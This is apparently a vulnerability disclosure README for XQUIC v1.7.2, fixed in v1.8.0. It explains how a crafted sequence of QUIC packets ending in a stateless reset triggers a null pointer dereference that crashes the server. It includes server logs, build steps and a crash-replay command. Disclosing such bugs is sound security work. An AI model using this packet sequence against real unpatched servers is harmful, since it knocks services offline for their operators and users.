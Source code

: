 # Bug M6

## Product: XQUIC (Alibaba.inc)
### Github repository: [https://github.com/alibaba/xquic](https://github.com/alibaba/xquic)
### Affected version: [v1.7.2](https://github.com/alibaba/xquic/releases/tag/v1.7.2)
### Fixed version: v1.8.0

### Bug summary:
A Null pointer dereference occurs and XQUIC server crashes, resulting in a Denial of Service attack.

### Bug details: 
The server tries to handle a Stateless Reset packet after the connection has been destroyed.

### Attack vector:
Remote attacker (on path).

### Exploitation 
1) An attack send an Initial packet with CRYPTO frame (Client Hello TLS message) and PADDING frames.
2) Once the server responds with an Initial packet carrying a CRYPTO frame (Server Hello TLS message), the attacker sends an Initial packet with an ACK frame, a NEW_CONNECTION_ID frame (with stateless reset token), a MAX_DATA frame (maximum data=0), a DATA_BLOCKED frame, a STREAM frame and PADDING frames.
3) The server process the ACK frame, NEW_CONNECTION_ID frame (with stateless reset token), MAX_DATA frame (maximum data=0). Because the attacker set the maximum data=0 in MAX_DATA frame, the server detects an error and needs to response back with a correct value. 
    ```
    [frames_processed] |scid:fccd4bae3826d262|xqc_parse_max_data_frame|type:8|max_data:0|
    [info] |scid:fccd4bae3826d262|xqc_process_max_data_frame|max_data too small|max_data:0|max_data_old:34359738368|
    ```
    It tries to send a MAX_DATA frame in a 1-RTT packet and encrypt it. At this point, the handshake is not complete yet. Therefore, it leads to encryption error.

    ```
    [error] |scid:fccd4bae3826d262|xqc_tls_encrypt_payload|crypto not initialized|level:3|
    [error] |scid:fccd4bae3826d262|xqc_packet_encrypt_buf|conn:000055555598DE9C|err:0x1ff|l-127.0.0.1-4433-fccd4bae3826d262 p-127.0.0.1-44683-acd45014b3532c58|
    [error] |scid:fccd4bae3826d262|xqc_packet_encrypt_buf|packet protection error|pkt_type:4|pkt_num:0
    [error] |scid:fccd4bae3826d262|xqc_enc_packet_with_pn|encrypt packet error|
    ```
    Then, the server decides to destroy the connection, which also destroy all the ```path``` in the ```paths_list```.
    ```
    [report] |scid:fccd4bae3826d262|xqc_conn_destroy|000055555598DE9C|has_0rtt:0|0rtt_accept:0|token_ok:0|handshake_time:0|.....
    [debug] |scid:fccd4bae3826d262|xqc_h3_conn_destroy|success|
    ```
4) The attacker continues to send a Stateless Reset packet.
5) The server tries to handle the Stateless Reset packet.
    ```
    [info] |scid:fccd4bae3826d262|xqc_conn_handle_stateless_reset|conn closing, ignore pkt
    ```
    Eventually, the server will reach to ```xqc_engine_main_logic_internal```->```xqc_engine_main_logic```->```xqc_engine_process_conn```->```xqc_conn_timer_expire```->```xqc_timer_expire```. 
    
    At this point, the ```path->path_send_ctl = NULL``` (this was set when ```xqc_conn_destroy```), resulting in a NULL pointer dereference in ```xqc_timer_expire```.


### PoC
Build the xquic test_server as described in the following (assumed you are in same directory as this README.md):
```bash
git clone https://github.com/alibaba/xquic.git
cp xquic_for_developers.patch xquic.crt xquic.key xquic
cd xquic

git clone https://github.com/google/boringssl.git ./third_party/boringssl
cp ../boringssl_for_developers.patch ./third_party/boringssl
cd ./third_party/boringssl
git apply boringssl_for_developers.patch
mkdir -p build && cd build
cmake -DBUILD_SHARED_LIBS=0 -DCMAKE_C_FLAGS="-fPIC" -DCMAKE_CXX_FLAGS="-fPIC" ..
make ssl crypto
cd ..
export SSL_TYPE_STR="boringssl"
export SSL_PATH_STR="${PWD}"
cd ../..
git checkout ae6f7f7
git submodule update --init --recursive
git apply xquic_for_developers.patch
mkdir -p build; cd build
cmake -DGCOV=on -DCMAKE_BUILD_TYPE=Debug -DXQC_ENABLE_TESTING=1 -DXQC_SUPPORT_SENDMMSG_BUILD=1 -DXQC_ENABLE_EVENT_LOG=1 -DXQC_ENABLE_BBR2=1 -DXQC_ENABLE_RENO=1 -DSSL_TYPE=${SSL_TYPE_STR} -DSSL_PATH=${SSL_PATH_STR} ..
make -j
cd ..

# start the server
./build/tests/test_server -a 127.0.0.1 -p 4433
```
Open another terminal, build the program and run with the given crash input (assumed you are in same directory as this README.md):
```bash
cd ..
make
../replay_crash xquic_crash 4433
```